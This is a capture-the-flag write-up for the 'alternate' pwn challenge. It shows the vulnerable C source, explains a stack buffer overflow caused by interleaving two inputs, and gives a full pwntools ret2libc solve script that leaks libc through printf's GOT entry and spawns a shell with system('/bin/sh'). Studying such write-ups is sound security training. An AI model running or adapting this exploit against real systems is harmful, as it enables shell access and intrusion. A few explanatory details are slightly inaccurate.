

# Challenge
Author: jinjinz

Difficulty: Medium

A wild alien has appeared! Our Earth Defense Forces did not predict this invasion and could not respond in time. The only usable weapon right now is a pair of loaded laser cannons that can fire just once. It is up to you as the marksman operator to take down this enemy of mankind. Also, there are some rumours that this alien is holding onto our flag. Make this shot count.

[alternate](alternate)

# Understanding the Program

We are given the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

#define BUFSIZE 68

char buf1[BUFSIZE], buf2[BUFSIZE];

void load_cannon()
{
	int idx1, idx2, idx;
	int byte_read1, byte_read2;
	char buf[BUFSIZE];

	memset(buf, BUFSIZE, 0);
	printf("Load up Cannon Alpha: ");
	byte_read1 = fread(buf1, 1, BUFSIZE, stdin);
	printf("Load up Cannon Beta: ");
	byte_read2 = fread(buf2, 1, BUFSIZE, stdin);

	buf1[BUFSIZE-1] = 0;
	buf2[BUFSIZE-1] = 0;

	printf("Launching Cannon....\n");

	if(byte_read1 != byte_read2)
	{
		printf("[!] Two laser cannon did not have the same number of ammo!!\n");
		return;
	}

	for(idx = 0; idx < byte_read1 + byte_read2; idx++)
	{
		idx1 = (idx % 2) ? BUFSIZE - 1 : idx / 2;
		idx2 = (idx % 2) ? idx / 2 : BUFSIZE - 1;
		buf[idx] = buf1[idx1] + buf2[idx2];
	}

	printf("[!] Launched! Did you manage to retrieve what is in the alien's pocket?\n");
}

int main(void)
{
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("░░░░░░░░░░░░░░░░░░░░░░░░░\n"
		"░░░░░░░▄░▀▄░░░▄▀░▄░░░░░░░\n"
		"░░░░░░░█▄███████▄█░░░░░░░\n"
		"░░░░░░░███▄███▄███░░░░░░░\n"
		"░░░░░░░▀█████████▀░░░░░░░\n"
		"░░░░░░░░▄▀░░░░░▀▄░░░░░░░░\n"
		"░░░░░░░░░░░░░░░░░░░░░░░░░\n");
	printf("[!] Wild alien has appeared!\n");
	printf("##################################################################\n");
	printf("The alien is hiding something inside its pocket. Defeat the alien and clear this level!\n");
	printf("In order to defeat the alien and clear this level, you have to load up two laser cannon.\n");
	printf("[*] Two laser cannon can only hold the same amount of ammo.\n");
	printf("[*] After filling up both cannons, the cannon will automatically start firing!\n");
	printf("##################################################################\n");
	printf("Start loading up cannon.....\n");

	load_cannon();
	return 0;
}
```


It seems like the programme reads 68 bytes into buf1 and buf2 respectively, and zeroes out index 67 of both buf1 and buf2.

```c
    memset(buf, BUFSIZE, 0);
    printf("Load up Cannon Alpha: ");
    byte_read1 = fread(buf1, 1, BUFSIZE, stdin);
    printf("Load up Cannon Beta: ");
    byte_read2 = fread(buf2, 1, BUFSIZE, stdin);

    buf1[BUFSIZE-1] = 0;
    buf2[BUFSIZE-1] = 0;
```

It then reads 128 bytes of ... something into buf.

```c
    for(idx = 0; idx < byte_read1 + byte_read2; idx++)
    {
        idx1 = (idx % 2) ? BUFSIZE - 1 : idx / 2;
        idx2 = (idx % 2) ? idx / 2 : BUFSIZE - 1;
        buf[idx] = buf1[idx1] + buf2[idx2];
    }
```

This may initially seem confusing, however it can be rewritten into something like this
```c
for (idx = 0; idx < byte_read1 + byte_read2; idx++)
{
	if ( idx % 2 == 1) {
		idx1 = BUFSIZE - 1 // we already know this was set to 0 initially
		idx2 = idx / 2
	} else {
		idx1 = idx / 2
		idx2 = BUFSIZE - 1
	}
	
	buf[idx] = buf1[idx1] + buf2[idx2];
}
```

How this works is that, the program will add alternate characters of buf1 and buf2 to buf i.e.

```
buf = buf1[0] + buf2[0] + buf1[1] + buf2[1] + buf1[2] + buf1[2] + ...
```

# Exploit

This means that we can write up to 136 characters into buf which only holds 68 characters. This presents us a buffer overflow.

If we look at the stack frame for this function in IDA, 



There is `0x68 = 104` bytes between the start of our buffer to the return address.

This gives us a `136 - 104 = 32` bytes of space to write our rop chain, which is more than enough for a ret2libc attack.

Looking at the securities of the binary,

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This will be a easy ret2libc.

### Solve Script

First we will leak the GOT entry of our printf function, which allows us to calculate base address of libc, defeating **ASLR**.

With libc address, we can calculate address of `system` and `/bin/sh`, and hence allow us to call `system('/bin/sh')`.

```py
# coding: utf-8
from pwn import *

context.binary = elf = ELF('./alternate')
libc = elf.libc
p = process('./alternate')


def write(ropchain):
    print(len(ropchain))
    assert len(ropchain) == 32

    payload = b"A"*76               # fill buffer
    payload += p32(0) * 2           # idx1 & idx2 which are irrelevant
    payload += p32(68) * 2          # byte_read1&2 which define read size
    payload += p32(len(payload))    # fill idx with the current idx
    payload += b"A" * 8             # overwrite saved rbp
    payload += ropchain

    num_write = len(payload)
    alpha = "".join(chr(payload[x]) for x in range(0, num_write, 2))
    beta = "".join(chr(payload[x]) for x in range(1, num_write, 2))
    p.sendafter("Alpha: ", alpha)
    p.sendafter("Beta: ", beta)


POPRDI = 0x00000000004008b3

r = p64(POPRDI) + p64(elf.got.printf)   # leak printf GOT entry
r += p64(elf.sym.puts)                  # leak printf GOT entry
r += p64(elf.sym.main)                  # loop program back to main
write(r)

p.recvuntil("pocket?\n")
leak = unpack(p.recvline().strip(), 'all')
libc.address = leak - libc.sym.printf

r = p64(POPRDI) + p64(next(libc.search(b'/bin/sh')))
r += p64(libc.sym.system) + p64(0xDEADBEEF)
write(r)

p.interactive()
```
